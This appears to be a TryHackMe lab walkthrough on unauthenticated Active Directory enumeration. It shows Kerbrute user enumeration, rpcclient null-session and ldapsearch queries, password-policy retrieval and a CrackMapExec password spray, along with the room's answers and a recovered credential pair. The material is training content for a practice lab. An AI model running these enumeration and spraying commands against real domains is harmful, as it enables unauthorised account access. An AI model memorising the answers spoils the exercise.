**Kerberos** is the primary authentication protocol for Microsoft Windows domains. Unlike NTLM, which relies on a challenge-response mechanism, Kerberos uses a ticket-based system managed by a trusted third party, the Key Distribution Centre (KDC). This approach not only enables mutual authentication between client and server but also leverages stronger encryption methods, making it generally more resilient against attacks. `Kerbrute` is a popular enumeration tool used to brute-force and enumerate valid Active Directory users by abusing the Kerberos pre-authentication.

Tools like `enum4linux-ng` or `rpcclient` may return some usernames, but they could be:

- Disabled accounts
- Non-domain accounts
- Fake honeypot users
- Or even false positives

Running those through kerbrute lets us confirm which ones are real, active AD users, which allows us to target them more accurately with password sprays.

We can create a user list thanks to the usernames we gathered with the previous tools.

```bash
user@tryhackme$ cat users.txt
Administrator
Guest
krbtgt
sshd
gerald.burgess
nigel.parsons
...
asrepuser1
rduke
```

Kerbrute Installation

1. Download a precompiled binary for your OS - `https://github.com/ropnop/kerbrute/releases`.
2. Rename kerbrute_linux_amd64 to `kerbrute`.
3. Run `chmod +x kerbrute` to make kerbrute executable.

Please note that kerbrute is **not installed on the AttackBox**, and will require internet access if you wish to download and experiment with it.

`Kerbrute` performs brute-force username enumeration against Kerberos:

```bash
user@tryhackme$ ./kerbrute userenum --dc 10.211.11.10 -d tryhackme.loc users.txt

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 05/16/25 - Ronnie Flathers @ropnop

2025/05/16 11:58:16 >  Using KDC(s):
2025/05/16 11:58:16 >    10.211.11.10:88

2025/05/16 11:58:16 >  [+] VALID USERNAME:     WRK$@tryhackme.loc
2025/05/16 11:58:16 >  [+] VALID USERNAME:     guy.smith@tryhackme.loc
2025/05/16 11:58:16 >  [+] VALID USERNAME:     sshd@tryhackme.loc
2025/05/16 11:58:16 >  [+] VALID USERNAME:     nigel.parsons@tryhackme.loc
2025/05/16 11:58:16 >  [+] VALID USERNAME:     gerald.burgess@tryhackme.loc
2025/05/16 11:58:16 >  [+] VALID USERNAME:     barbara.jones@tryhackme.loc
2025/05/16 11:58:16 >  [+] VALID USERNAME:     Administrator@tryhackme.loc
2025/05/16 11:58:16 >  [+] VALID USERNAME:     jeremy.booth@tryhackme.loc
2025/05/16 11:58:16 >  [+] VALID USERNAME:     kathryn.williams@tryhackme.loc
2025/05/16 11:58:16 >  [+] VALID USERNAME:     danny.baker@tryhackme.loc
2025/05/16 11:58:16 >  [+] VALID USERNAME:     gary.clarke@tryhackme.loc
2025/05/16 11:58:16 >  [+] VALID USERNAME:     marion.kay@tryhackme.loc
2025/05/16 11:58:16 >  [+] VALID USERNAME:     daniel.turner@tryhackme.loc
2025/05/16 11:58:16 >  [+] VALID USERNAME:     debra.yates@tryhackme.loc
2025/05/16 11:58:16 >  [+] VALID USERNAME:     danielle.lee@tryhackme.loc
2025/05/16 11:58:16 >  [+] VALID USERNAME:     douglas.roberts@tryhackme.loc
2025/05/16 11:58:16 >  [+] VALID USERNAME:     danielle.ali@tryhackme.loc
2025/05/16 11:58:16 >  [+] VALID USERNAME:     jennifer.harding@tryhackme.loc
2025/05/16 11:58:16 >  [+] VALID USERNAME:     martin.riley@tryhackme.loc
2025/05/16 11:58:16 >  [+] VALID USERNAME:     jeffrey.thompson@tryhackme.loc
2025/05/16 11:58:16 >  [+] VALID USERNAME:     asrepuser1@tryhackme.loc
2025/05/16 11:58:16 >  [+] VALID USERNAME:     krbtgtsvc@tryhackme.loc
2025/05/16 11:58:16 >  [+] VALID USERNAME:     strate905@tryhackme.loc
2025/05/16 11:58:16 >  [+] VALID USERNAME:     drgonz0@tryhackme.loc
2025/05/16 11:58:16 >  [+] VALID USERNAME:     empanadal0v3r@tryhackme.loc
2025/05/16 11:58:16 >  [+] VALID USERNAME:     strategos@tryhackme.loc
2025/05/16 11:58:16 >  [+] VALID USERNAME:     rduke@tryhackme.loc
2025/05/16 11:58:16 >  [+] VALID USERNAME:     DC$@tryhackme.loc
2025/05/16 11:58:16 >  Done! Tested 33 usernames (28 valid) in 0.026 seconds
```

As we can see in the output above, 28 out of the 33 users from our list are valid. We can use this information to update our user list

However, if our only choice is to use `kerbrute` for user enumeration because the other tools aren't working, we can download a wordlist like this one to discover user accounts. Once we have found a valid list of users, we can add them to a file called `users.txt` that we will use during our password spraying attack.

Throughout this task, we have explored multiple tools to help us with domain enumeration, such as gathering valid domain users. With a valid list, we are ready to start our password spraying attack and get our first set of AD credentials.

-----------------------------------------------------------------

#### What group is the user rduke part of?

Hint: Use the second ldapsearch command to query users.

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Walkthroughs/Easy/AD_Basic_Enumeration]
└─$ ldapsearch -x -H ldap://10.211.11.10 -b "dc=tryhackme,dc=loc" "(objectClass=person)"
# extended LDIF
#
# LDAPv3
# base <dc=tryhackme,dc=loc> with scope subtree
# filter: (objectClass=person)
# requesting: ALL
#

# Guest, Users, tryhackme.loc
dn: CN=Guest,CN=Users,DC=tryhackme,DC=loc
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: Guest
description: Built-in account for guest access to the computer/domain
distinguishedName: CN=Guest,CN=Users,DC=tryhackme,DC=loc
instanceType: 4
whenCreated: 20250402151315.0Z
whenChanged: 20250521183025.0Z
uSNCreated: 8197
memberOf: CN=Guests,CN=Builtin,DC=tryhackme,DC=loc
<---snip--->
# Raoul Duke, Users, tryhackme.loc
dn: CN=Raoul Duke,CN=Users,DC=tryhackme,DC=loc
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: Raoul Duke
sn: Duke
givenName: Raoul
distinguishedName: CN=Raoul Duke,CN=Users,DC=tryhackme,DC=loc
instanceType: 4
whenCreated: 20250513074600.0Z
whenChanged: 20250521182855.0Z
displayName: Raoul Duke
uSNCreated: 69676
uSNChanged: 114975
name: Raoul Duke
objectGUID:: NWLsrAinfE687hIoJA3Fow==
userAccountControl: 66048
badPwdCount: 10
codePage: 0
countryCode: 0
badPasswordTime: 133923257355026255
lastLogoff: 0
lastLogon: 133915981476381897
pwdLastSet: 133915959609039319
primaryGroupID: 513
objectSid:: AQUAAAAAAAUVAAAAKeA2dTgJ371Q0KEAMQoAAA==
accountExpires: 9223372036854775807
logonCount: 1
sAMAccountName: rduke
sAMAccountType: 805306368
userPrincipalName: rduke@tryhackme.loc
lockoutTime: 133923257355026255
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=tryhackme,DC=loc
dSCorePropagationData: 20250514163924.0Z
dSCorePropagationData: 16010101000001.0Z
lastLogonTimestamp: 133915981456224520
<---snip--->
```

rduke has a `primaryGroupID` of 513. Query for this group:

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Walkthroughs/Easy/AD_Basic_Enumeration]
└─$ echo 'querygroup 513' | rpcclient -U "" -N 10.211.11.10
        Group Name:     Domain Users
        Description:    All domain users
        Group Attribute:7
        Num Members:31
```

Answer: Domain Users

#### What is this user's full name?

See results above (cn field).

Answer: Raoul Duke

#### Which username is associated with RID 1634?

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Walkthroughs/Easy/AD_Basic_Enumeration]
└─$ echo 'queryuser 1634' | rpcclient -U "" -N 10.211.11.10 | grep -i name
        User Name   :   katie.thomas
        Full Name   :   Katie Thomas
```

Answer: katie.thomas

### Task 5: Password Spraying

Password spraying is an attack technique where a small set of common passwords is tested across many accounts. Unlike brute-force attacks, password spraying avoids account lockouts by testing each account with only a few attempts, exploiting poor password practices common in many organisations. Password spraying is often effective because many organisations:

- Require frequent password changes, leading users to pick predictable patterns (for example, `Summer2025!`).
- Don't enforce their policies well.
- Reuse common passwords across multiple accounts.

Common password lists for spraying include:

- Seasonal passwords.
- Default passwords used by IT teams (`Password123`).
- Passwords leaked in data breaches, like `rockyou.txt`.

#### Password Policy

Before we can start our attack, it is essential to understand our target's password policy. This will allow us to retrieve information about the minimum password length, complexity, and the number of failed attempts that will lock out an account.

rpcclient

We can use rpcclient via a null session to query the DC for the password policy:

`rpcclient -U "" 10.211.11.10 -N`

And then we can run the `getdompwinfo` command:

```bash
rpcclient $> getdompwinfo
min_password_length: 12
password_properties: 0x00000001
    DOMAIN_PASSWORD_COMPLEX
```

CrackMapExec

**CrackMapExec** is a well-known network service exploitation tool that we will use throughout this module. It allows us to perform enumeration, command execution, and post-exploitation attacks in Windows environments. It supports various network protocols, such as SMB, LDAP, RDP, and SSH. If anonymous access is permitted, we can retrieve the password policy without credentials with the following command:

```bash
user@tryhackme$ crackmapexec smb 10.211.11.10 --pass-pol
SMB         10.211.11.10    445    DC               [*] Windows Server 2019 Datacenter 17763 x64 (name:DC) (domain:tryhackme.loc) (signing:True) (SMBv1:True)
SMB         10.211.11.10    445    DC               [+] Dumping password info for domain: TRYHACKME
SMB         10.211.11.10    445    DC               Minimum password length: 18
SMB         10.211.11.10    445    DC               Password history length: 21
SMB         10.211.11.10    445    DC               Maximum password age: 41 days 23 hours 53 minutes
SMB         10.211.11.10    445    DC               
SMB         10.211.11.10    445    DC               Password Complexity Flags: 000001
SMB         10.211.11.10    445    DC                   Domain Refuse Password Change: 0
SMB         10.211.11.10    445    DC                   Domain Password Store Cleartext: 0
SMB         10.211.11.10    445    DC                   Domain Password Lockout Admins: 0
SMB         10.211.11.10    445    DC                   Domain Password No Clear Change: 0
SMB         10.211.11.10    445    DC                   Domain Password No Anon Change: 0
SMB         10.211.11.10    445    DC                   Domain Password Complex: 1
SMB         10.211.11.10    445    DC               
SMB         10.211.11.10    445    DC               Minimum password age: 1 day 4 minutes
SMB         10.211.11.10    445    DC               Reset Account Lockout Counter: 30 minutes
SMB         10.211.11.10    445    DC               Locked Account Duration: 30 minutes
SMB         10.211.11.10    445    DC               Account Lockout Threshold: 10
SMB         10.211.11.10    445    DC               Forced Log off Time: Not Set
```

#### Performing Password Spraying Attacks

We have gathered a solid user list from our user enumeration in the previous task; we now need to create a small list of common passwords.
Through our password policy enumeration, we saw that the password complexity is equal to 1:

- In **rpcclient**: `password_properties: 0x00000001`
- With **CrackMapExec**: `Password Complexity Flags: 000001`

This means that at least three of the following four conditions need to be respected for a password to be created:

1. Uppercase letters
2. Lowercase letters
3. Digits
4. Special characters

Also, passwords cannot contain the user's account name or parts of their full name exceeding two consecutive characters. We can refer to this link to understand Microsoft's password complexity definitions.

Let's imagine that through some OSINT, we discovered that this company was in a data breach, and some of the known passwords were variations of the string "Password". We can create the following list, making sure to respect the password policy:

- `Password!`
- `Password1`
- `Password1!`
- `P@ssword`
- `Pa55word1`

We can use CrackMapExec to run our password spraying attack against the WRK computer:

```bash
user@tryhackme$ crackmapexec smb 10.211.11.20 -u users.txt -p passwords.txt
[*] First time use detected
[*] Creating home directory structure
[*] Creating missing folder logs
[*] Creating missing folder modules
[*] Creating missing folder protocols
[*] Creating missing folder workspaces
[*] Creating missing folder obfuscated_scripts
[*] Creating missing folder screenshots
[*] Copying default configuration file
SMB         10.211.11.20    445    WRK              [*] Windows 10.0 Build 17763 x64 (name:WRK) (domain:tryhackme.loc) (signing:False) (SMBv1:False)
SMB         10.211.11.20    445    WRK              [-] tryhackme.loc\Administrator:Password! STATUS_LOGON_FAILURE
SMB         10.211.11.20    445    WRK              [-] tryhackme.loc\Guest:Password! STATUS_LOGON_FAILURE
SMB         10.211.11.20    445    WRK              [-] tryhackme.loc\krbtgt:Password! STATUS_LOGON_FAILURE
SMB         10.211.11.20    445    WRK              [-] tryhackme.loc\DC$:Password! STATUS_LOGON_FAILURE
SMB         10.211.11.20    445    WRK              [-] tryhackme.loc\WRK$:Password! STATUS_LOGON_FAILURE
SMB         10.211.11.20    445    WRK              [-]
SMB         10.211.11.20    445    WRK              [-] tryhackme.loc\asrepuser1:Password1! STATUS_LOGON_FAILURE
SMB         10.211.11.20    445    WRK              [+] tryhackme.loc\*****:******
```

The `[+]` in the last line of our output indicates that we have found a valid credential pair.

-----------------------------------------------------------------

#### What is the minimum password length?

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Walkthroughs/Easy/AD_Basic_Enumeration]
└─$ crackmapexec smb 10.211.11.10 --pass-pol
SMB         10.211.11.10    445    DC               [*] Windows Server 2019 Datacenter 17763 x64 (name:DC) (domain:tryhackme.loc) (signing:True) (SMBv1:True)
SMB         10.211.11.10    445    DC               [+] Dumping password info for domain: TRYHACKME
SMB         10.211.11.10    445    DC               Minimum password length: 7
SMB         10.211.11.10    445    DC               Password history length: 24
SMB         10.211.11.10    445    DC               Maximum password age: 41 days 23 hours 53 minutes 
SMB         10.211.11.10    445    DC               
SMB         10.211.11.10    445    DC               Password Complexity Flags: 000001
SMB         10.211.11.10    445    DC                   Domain Refuse Password Change: 0
SMB         10.211.11.10    445    DC                   Domain Password Store Cleartext: 0
SMB         10.211.11.10    445    DC                   Domain Password Lockout Admins: 0
SMB         10.211.11.10    445    DC                   Domain Password No Clear Change: 0
SMB         10.211.11.10    445    DC                   Domain Password No Anon Change: 0
SMB         10.211.11.10    445    DC                   Domain Password Complex: 1
SMB         10.211.11.10    445    DC               
SMB         10.211.11.10    445    DC               Minimum password age: 1 day 4 minutes 
SMB         10.211.11.10    445    DC               Reset Account Lockout Counter: 2 minutes 
SMB         10.211.11.10    445    DC               Locked Account Duration: 2 minutes 
SMB         10.211.11.10    445    DC               Account Lockout Threshold: 10
SMB         10.211.11.10    445    DC               Forced Log off Time: Not Set
```

Answer: 7

#### What is the locked account duration?

See results above.

Answer: 2 minutes

#### Perform password spraying using CrackMapExec. What valid credentials did you find? (format: username:password)

Create list of users

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Walkthroughs/Easy/AD_Basic_Enumeration]
└─$ rpcclient -U "" 10.211.11.10 -N
rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[sshd] rid:[0x649]
user:[gerald.burgess] rid:[0x650]
user:[nigel.parsons] rid:[0x651]
user:[guy.smith] rid:[0x652]
user:[jeremy.booth] rid:[0x653]
user:[barbara.jones] rid:[0x654]
user:[marion.kay] rid:[0x655]
user:[kathryn.williams] rid:[0x656]
user:[danny.baker] rid:[0x657]
user:[gary.clarke] rid:[0x658]
user:[daniel.turner] rid:[0x659]
user:[debra.yates] rid:[0x65a]
user:[jeffrey.thompson] rid:[0x65b]
user:[martin.riley] rid:[0x65c]
user:[danielle.lee] rid:[0x65d]
user:[douglas.roberts] rid:[0x65e]
user:[dawn.bolton] rid:[0x65f]
user:[danielle.ali] rid:[0x660]
user:[michelle.palmer] rid:[0x661]
user:[katie.thomas] rid:[0x662]
user:[jennifer.harding] rid:[0x663]
user:[strategos] rid:[0x664]
user:[empanadal0v3r] rid:[0x665]
user:[drgonz0] rid:[0x666]
user:[strate905] rid:[0x667]
user:[krbtgtsvc] rid:[0x668]
user:[asrepuser1] rid:[0x669]
user:[rduke] rid:[0xa31]
user:[user] rid:[0x1201]
rpcclient $> exit

┌──(kali㉿kali)-[/mnt/…/TryHackMe/Walkthroughs/Easy/AD_Basic_Enumeration]
└─$  vi users.txt

┌──(kali㉿kali)-[/mnt/…/TryHackMe/Walkthroughs/Easy/AD_Basic_Enumeration]
└─$ cat users.txt                                               
Administrator
Guest
krbtgt
sshd
gerald.burgess
nigel.parsons
guy.smith
jeremy.booth
barbara.jones
marion.kay
kathryn.williams
danny.baker
gary.clarke
daniel.turner
debra.yates
jeffrey.thompson
martin.riley
danielle.lee
douglas.roberts
dawn.bolton
danielle.ali
michelle.palmer
katie.thomas
jennifer.harding
strategos
empanadal0v3r
drgonz0
strate905
krbtgtsvc
asrepuser1
rduke
user
```

Alternative solution for creating a users file

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Walkthroughs/Easy/AD_Basic_Enumeration]
└─$ for i in $(seq 1000 2000); do echo "queryuser $i" |rpcclient -U "" -N 10.211.11.10 2>/dev/null | grep -i "User Name"; done | cut -d ':' -f2 | xargs | tr ' ' '\n' > users2.txt

┌──(kali㉿kali)-[/mnt/…/TryHackMe/Walkthroughs/Easy/AD_Basic_Enumeration]
└─$ cat users2.txt 
DC$
WRK$
sshd
gerald.burgess
nigel.parsons
guy.smith
jeremy.booth
barbara.jones
marion.kay
kathryn.williams
danny.baker
gary.clarke
daniel.turner
debra.yates
jeffrey.thompson
martin.riley
danielle.lee
douglas.roberts
dawn.bolton
danielle.ali
michelle.palmer
katie.thomas
jennifer.harding
strategos
empanadal0v3r
drgonz0
strate905
krbtgtsvc
asrepuser1
```

Create password list

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Walkthroughs/Easy/AD_Basic_Enumeration]
└─$ vi passwords.txt

┌──(kali㉿kali)-[/mnt/…/TryHackMe/Walkthroughs/Easy/AD_Basic_Enumeration]
└─$ cat passwords.txt                             
Password!
Password1
Password1!
P@ssword
Pa55word1
```

Do password spray attack with `crackmapexec`

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Walkthroughs/Easy/AD_Basic_Enumeration]
└─$ crackmapexec smb 10.211.11.20 -u users.txt -p passwords.txt | grep -v '[-]'
SMB                      10.211.11.20    445    WRK              [*] Windows 10 / Server 2019 Build 17763 x64 (name:WRK) (domain:tryhackme.loc) (signing:False) (SMBv1:False)
SMB                      10.211.11.20    445    WRK              [+] tryhackme.loc\rduke:Password1! 
```

Answer: rduke:Password1!

### Task 6: Conclusion

In this room, we focused on various types of reconnaissance and enumeration activities that don’t require valid credentials. We covered mapping out the network, discovering and enumerating SMB shares, LDAP, RPC, and others. Finally, we explained password spraying and the various tools to carry out such attacks.

Active Directory remains a complex topic and you are encouraged to check other rooms to build and beef up your skills in Active Directory penetration testing. For more practice and going more in-depth, you can check the [Breaking Windows](https://tryhackme.com/module/breakingwindows) and the [Compromising Active Directory](https://tryhackme.com/module/hacking-active-directory) modules in addition to the [next room](https://tryhackme.com/room/adauthenticatedenumeration).

It is time to proceed to the next room, [AD: Authenticated Enumeration](https://tryhackme.com/room/adauthenticatedenumeration).

For additional information, please see the references below.

## References

- [CrackMapExec - GitHub](https://github.com/byt3bl33d3r/CrackMapExec)
- [CrackMapExec - Kali Tools](https://www.kali.org/tools/crackmapexec/)
- [enum4linux - GitHub](https://github.com/CiscoCXSecurity/enum4linux)
- [enum4linux - Kali Tools](https://www.kali.org/tools/enum4linux/)
- [enum4linux-ng - GitHub](https://github.com/cddmp/enum4linux-ng)
- [enum4linux-ng - Kali Tools](https://www.kali.org/tools/enum4linux-ng/)
- [ldbsearch - Kali Tools](https://www.kali.org/tools/samba/#ldbsearch)
- [ldapsearch - Linux manual page](https://linux.die.net/man/1/ldapsearch)
- [Kerbrute - GitHub](https://github.com/ropnop/kerbrute)
- [nmap - Homepage](https://nmap.org/)
- [nmap - Linux manual page](https://linux.die.net/man/1/nmap)
- [nmap - Manual page](https://nmap.org/book/man.html)
- [rpcclient - Kali Tools](https://www.kali.org/tools/samba/#rpcclient)
- [rpcclient - Linux manual page](https://linux.die.net/man/1/rpcclient)
- [smbclient - Kali Tools](https://www.kali.org/tools/samba/#smbclient)
- [smbclient - Linux manual page](https://linux.die.net/man/1/smbclient)
- [Smbmap - GitHub](https://github.com/ShawnDEvans/smbmap)
- [Smbmap - Kali Tools](https://www.kali.org/tools/smbmap/)
